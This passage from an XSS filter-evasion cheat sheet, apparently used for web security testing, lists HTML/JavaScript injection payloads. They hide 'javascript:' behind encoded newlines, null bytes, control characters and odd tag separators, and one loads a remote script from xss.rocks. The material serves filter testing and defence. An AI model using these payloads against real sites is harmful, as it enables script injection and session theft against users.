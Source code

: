 ```html
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
```

## Embedded Carriage Return to Break-up XSS

(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I've seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):

```html
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```

## Null breaks up JavaScript Directive

Null chars also work as XSS vectors but not like above, you need to inject them directly using something like Burp Proxy or use `%00` in the URL string or if you want to write your own injection tool you can either use vim (`^V^@` will produce a null) or the following program to generate it into a text file. Okay, I lied again, older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hypen control char). But the null char `%00` is much more useful and helped me bypass certain real world filters with a variation on this example:

```html
`perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out`
```

## Spaces and Meta Chars Before the JavaScript in Images for XSS

This is useful if the pattern match doesn't take into account spaces in the word `javascript:` -which is correct since that won't render- and makes the false assumption that you can't have a space between the quote and the `javascript:` keyword. The actual reality is you can have any char from 1-32 in decimal:

```html
<IMG SRC=" &#14;  javascript:alert('XSS');">
```

## Non-alpha-non-digit XSS

The Firefox HTML parser assumes a non-alpha-non-digit is not valid after an HTML keyword and therefor considers it to be a whitespace or non-valid token after an HTML tag. The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace. For example `\<SCRIPT\\s` != `\<SCRIPT/XSS\\s`:

```html
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
```

Based on the same idea as above, however,expanded on it, using Rnake fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc...) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:
